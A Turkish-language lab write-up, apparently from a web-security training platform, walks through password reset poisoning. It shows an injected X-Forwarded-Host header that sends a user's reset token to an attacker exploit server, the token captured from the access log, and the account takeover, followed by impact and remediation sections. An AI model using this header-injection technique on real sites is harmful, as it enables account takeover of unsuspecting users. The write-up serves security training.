







# Password reset poisoning via middleware

## 1. Lab Bilgisi

**Difficulty:** Practitioner

## 2. Vulnerability Özeti

Bu labda uygulama, parola sıfırlama linkini üretirken request içindeki `X-Forwarded-Host` header değerine güveniyor. Normalde reset linkinin uygulamanın kendi domainiyle oluşturulması gerekirken, bu header manipüle edildiğinde link saldırganın kontrolündeki exploit server domainiyle oluşturulabiliyor. Böylece hedef kullanıcıya gönderilen reset linki saldırgan sunucusuna yönleniyor ve URL içindeki reset token access log üzerinden ele geçirilebiliyor.

## 3. Kullanılan Bilgiler

**Hedef kullanıcı:** `carlos`

**Kullanılan header:** `X-Forwarded-Host`

**Exploit server:** `exploit-0a2c002003f4892d80c5025001fc00f0.exploit-server.net`

**Ele geçirilen token:** `iwlyi3o3bmkda6r5y1qth4woaei4yagr`

**Yeni parola:** `123`

**Kullanılan teknik:** Password reset poisoning

## 4. Exploitation Steps

1. İlk olarak login sayfasında `Forgot password?` linkine tıkladım. Hedef olarak `carlos` kullanıcısının parolasını sıfırlamaya çalışacağım için reset formuna bu kullanıcı adını girdim.



2. Parola sıfırlama formunda `carlos` değerini submit ettim.



3. Bu request'i Burp Repeater'da yakaladım ve request'e `X-Forwarded-Host` header'ı ekledim. Header değeri olarak kendi exploit server domainimi verdim. Response içinde uygulama yine normal şekilde `Please check your email for a reset password link.` mesajı döndürdü. Yani uygulama isteği reddetmedi ve reset mailini oluşturmaya devam etti.

```http
X-Forwarded-Host: exploit-0a2c002003f4892d80c5025001fc00f0.exploit-server.net
```



4. Daha sonra exploit server'ın access log kısmını kontrol ettim. Victim tarafından `/forgot-password?temp-forgot-password-token=...` path'ine istek geldiğini gördüm. Bu istek, reset mailindeki linkin artık exploit server domainine yönlendiğini ve token'ın bana sızdığını gösterdi.



5. Access log'dan aldığım token değerini gerçek lab domainindeki reset endpoint'ine ekleyerek açtım. Bu sayede `carlos` kullanıcısı için yeni parola belirleme ekranına ulaştım ve yeni parolayı `123` olarak değiştirdim.

```http
/forgot-password?temp-forgot-password-token=iwlyi3o3bmkda6r5y1qth4woaei4yagr
```



6. Parola değiştikten sonra login sayfasına dönüp `carlos:123` bilgileriyle giriş yaptım.



7. `carlos` hesabına başarılı şekilde erişince lab çözüldü.



## 5. Impact

Uygulama parola sıfırlama linkini üretirken kullanıcı kontrollü veya proxy üzerinden gelen `X-Forwarded-Host` gibi header'lara güvenirse saldırgan reset linkinin domainini kendi kontrolündeki bir sunucuya çevirebilir. Hedef kullanıcı reset mailindeki linki açtığında token saldırganın access log'una düşer. Bu token ile saldırgan kullanıcının parolasını değiştirerek hesabı ele geçirebilir.

## 6. Remediation

Parola sıfırlama linkleri oluşturulurken `Host`, `X-Forwarded-Host` veya benzeri client-controlled header değerlerine doğrudan güvenilmemelidir. Uygulama kendi canonical domain bilgisini server-side konfigürasyondan almalı ve reset linklerini her zaman bu güvenilir domain üzerinden üretmelidir. Reverse proxy kullanılıyorsa forwarded header'lar yalnızca güvenilir proxy katmanından geliyorsa kabul edilmeli, dışarıdan gelen değerler sanitize edilmeli veya tamamen yok sayılmalıdır. Reset token'lar kısa süreli, tek kullanımlık ve yeterli entropiye sahip olmalı; parola değişimi tamamlandığında hemen geçersiz kılınmalıdır.
